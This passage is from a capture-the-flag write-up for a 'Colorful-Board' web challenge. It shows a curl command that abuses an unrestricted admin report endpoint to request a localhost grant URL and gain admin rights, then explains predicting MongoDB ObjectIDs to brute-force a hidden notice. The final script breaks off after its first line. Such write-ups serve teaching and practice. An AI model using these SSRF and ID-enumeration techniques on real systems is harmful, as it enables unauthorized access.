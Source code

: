 - Becoming Admin 

A lot of work to do, let's split the steps first thing first, we need to be an admin, after spending hours in the code looking for what could work and what couldn't, we can call the `GET /admin/grant?username` through the `GET /admin/report` endpoin because it has no restrictions or filters.

```sh
➜  Colorful-Board curl 'https://eb7655042aed5ebaba63a259.deadsec.quest/admin/report?url=http://127.0.0.1:1337/admin/grant?username=oz' -H "Cookie: $cookie"
{"status":200,"message":"Reported."}
```

We relogin and now are Admin!
```sh
➜  sample-colorful_board curl 'https://eb7655042aed5ebaba63a259.deadsec.quest/admin/notice' -H "Cookie: $cookie"
<!DOCTYPE html>
<html lang="ko">
# ..
# ..
```

- Getting the second part of the flag

Now we can see the notices but not the one that has the flag, we will skip the first part for now and focus on the second part you will see why later (it's easier 😅).

We have two notices IDs and the flag is inbetween them
```html
<h2><a href="/admin/notice/66a67f8a5abd7894b69f2d68">asdf</a></h2>
<h2><a href="/admin/notice/66a67f905abd7894b69f2d6a">qwer</a></h2>
```
If you notice the IDs are similar, only minor and predictable because of how mongodb ObjectID works. During the CTF my script was trying all possible iterations on the differencet characters because somehow the difference was only 2 characters which is a small charset to bruteforce. Now it's 3 so it's not efficient I had to find another way to predict that and it's when I found this [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/27017-27018-mongodb#mongo-objectid-predict) page.
This gives a better idea on how we should predict the id, `66a67f8a5abd7894b69f2d68` is the first and `66a67f905abd7894b69f2d6a` is the third, the last char differ by 2 i.e in the middle our flag notice id will end with 9, left two more chars which just need to be bruteforced.

If we look at the IDs in our local image it will look like this which will comfirm that which is also detailed in the article linked above.
```json
cb> db.notices.find()
[
  {
    _id: ObjectId('66a66e63387296b1ad9f2d68'),
    title: 'asdf',
    content: 'asdf'
  },
  {
    _id: ObjectId('66a66e68387296b1ad9f2d69'),
    title: 'flag',
    content: 'FAKE_FLAG}'
  },
  {
    _id: ObjectId('66a66e6c387296b1ad9f2d6a'),
    title: 'qwer',
    content: 'qwer'
  }
]
```
And here is the final script to automate everything we done so far and get the second part of the flag.
```py
#!/usr/bin/python3
```